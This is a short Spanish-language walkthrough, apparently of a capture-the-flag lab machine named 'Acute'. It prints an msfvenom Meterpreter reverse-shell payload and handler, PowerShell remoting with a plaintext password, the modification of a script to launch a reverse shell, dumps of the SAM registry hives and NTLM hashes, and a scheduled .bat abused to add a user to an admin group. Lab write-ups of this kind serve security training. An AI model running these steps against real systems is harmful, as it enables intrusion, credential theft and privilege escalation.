 ```yaml
---
layout: post
title: Acute
image: /assets/img/blog/acutepng.png
accent_image: 
  background: url('/assets/img/red.jpg') center/cover
  overlay: false
accent_color: '#ccc'
theme_color: '#ccc'
description: >
  Version 9.1 provides minor design changes, new features, and closes multiple issues.
invert_sidebar: true
---
```


# Acute

Lo más relevante de esta máquina fue 

pudimos usar `exiftools` para poder ver los metadatos del archivo encontrado en la web

```shell 
exiftools document.docx
```

Ganamos acceso a la máquina y usamos metaexploit para poder user `screenshare`

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.8 LPORT=443 -f exe -o msf.exe

[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 10.10.10.10
set LPORT 443

```

Tenemos una constraseñas del usuari imonk, procedemos a utilizar pscredentials

```shell
$passwd = ConvertTo-SecureString 'W3_4R3_th3_f0rce' -AsPlaintext -Force
$cred = New-Object System.Management.Automation.PSCredential('acute\imonks',$passwd)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami}
```

Obteniendo un script que podemos manipular, podemos modificarlo para entablarnos una reverse shell, utilizamos el mismo que teníamos en la carpeta Utils. 

```shell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {((Get-Content C:\Users\imonks\Desktop\wm.ps1 -Raw) 
-Replace 'Get-Volume','cmd.exe /c C:\Utils\shell.exe') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1}
```

Ganamos acceso como otro usuario, podemos hacer lo siguiente ya que está dentro del grupo administradores, podemos intentar obtener los hashes de los usuarios con 
`secretsdump`

```shell
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup
```

Incluso con metasploit podremos obtener los hashes y podemos intentar crackearlos para obtener la contraseña.

```shell
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
```

Con la contraseña podemos tener acceso a otro usuario por lo que revisando la máquina, vemos que hay un archivo en program files
que indica que cada 5 min ejecuta el archivo .bat, con Set-Content podemos crearnos un arcbivo asignando a nuestro usuario al grupo de domain_admins, utilizamos Siteadmin porque según la desripción
este grupo tiene los privilegios del grupo domain admins.

![imagen1](/assets/img/blog/Acute1.jpg)

```shell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type C:\PROGRA~1\keepmeon\keepmeon.bat}
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content C:\PROGRA~1\keepmeon\pwned.bat -Value 'net group Site_Admin awallace /domain /add'}
```
